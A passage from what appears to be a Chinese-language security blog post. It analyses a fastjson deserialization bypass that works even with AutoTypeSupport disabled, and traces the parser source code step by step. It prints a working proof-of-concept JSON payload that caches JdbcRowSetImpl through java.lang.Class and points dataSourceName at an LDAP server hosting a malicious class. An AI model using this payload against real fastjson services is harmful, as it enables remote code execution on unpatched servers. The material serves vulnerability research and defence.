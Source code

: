 为什么说这里标注为通杀呢，其实这里和前面的绕过方式不太一样，这里是可以直接绕过`AutoTypeSupport`，即便关闭`AutoTypeSupport`也能直接执行成功。

先来看payload

```
public class POC `{`    public static void main(String[] args) `{`              String PoC = "`{`\n" +                "    \"a\":`{`\n" +                "        \"@type\":\"java.lang.Class\",\n" +                "        \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +                "    `}`,\n" +                "    \"b\":`{`\n" +                "        \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +                "        \"dataSourceName\":\"ldap://localhost:1389/badNameClass\",\n" +                "        \"autoCommit\":true\n" +                "    `}`\n" +                "`}`";        JSON.parse(PoC);    `}``}`
```

[![](https://p0.ssl.qhimg.com/t017e59d2c838a66464.png)](https://p0.ssl.qhimg.com/t017e59d2c838a66464.png)

可以看到payload和前面的payload构造不太一样，这里来分析一下。

[![](https://p4.ssl.qhimg.com/t01be2cec57b0dd6279.png)](https://p4.ssl.qhimg.com/t01be2cec57b0dd6279.png)

这里未开启`AutoTypeSupport`不会走到下面的黑白名单判断。

fastjson会使用 `checkAutoType` 方法来检测`[@type](https://github.com/type)`中携带的类，但这次我们传入的是一个`java.lang.class`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01c05ff78da55bf60f.png)

来看到`com.alibaba.fastjson.parser.DefaultJSONParser.class#parseObject`方法中

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01f1e3bd2ae6032b79.png)

跟进`deserialze`方法查看，这里的`deserialze`是`MiscCodec#deserialze`

上面代码会从`objVal = parser.parse();`获取内容为`com.sun.rowset.JdbcRowSetImpl`。来看到下面

```
if (clazz == Class.class) `{`    return TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());`}`
```

这里使用了`TypeUtils.loadClass`函数加载了`strVal`，也就是JdbcRowSetlmpl，跟进发现会将其缓存在map中。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0172673d9beca65dd0.png)

这里的true参数代表开启缓存，如果开启将恶意类存储到mapping中

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01126b2b2b27e4d2c1.png)

断点来到`com.alibaba.fastjson.parser.DefaultJSONParser#checkAutoType`
